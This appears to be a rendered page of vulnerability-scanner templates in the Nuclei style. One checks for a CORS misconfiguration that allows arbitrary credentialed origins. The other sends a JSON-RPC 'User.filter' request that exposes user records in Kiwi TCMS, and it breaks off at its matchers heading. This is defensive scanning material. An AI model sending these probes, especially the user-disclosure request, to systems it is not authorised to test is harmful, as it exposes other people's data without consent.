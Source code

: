 # CORS Misconfiguration

- severity - info
- tags - cors,generic,misconfig

## Requests

### Step - 1

```
GET  HTTP/1.1
Host: {{Hostname}}
Origin: {{cors_origin}}

```

### Matchers

**Type - dsl**

- name - arbitrary-origin
- dsl
  1. contains(tolower(all_headers), 'access-control-allow-origin: {{cors_origin}}')
  2. contains(tolower(all_headers), 'access-control-allow-credentials: true')
- condition - and

**Payloads**- cors_origin

---

# Kiwi TCMS Information Disclosure

- severity - high
- tags - kiwitcms,exposure,misconfig,hackerone

## Requests

### Step - 1

```
POST /json-rpc/ HTTP/1.1
Host: {{Hostname}}
Content-Type: application/json
Accept-Encoding: gzip, deflate

{"jsonrpc":"2.0","method":"User.filter","id": 1,"params":{"query":{"is_active":true}}}

```

### Matchers
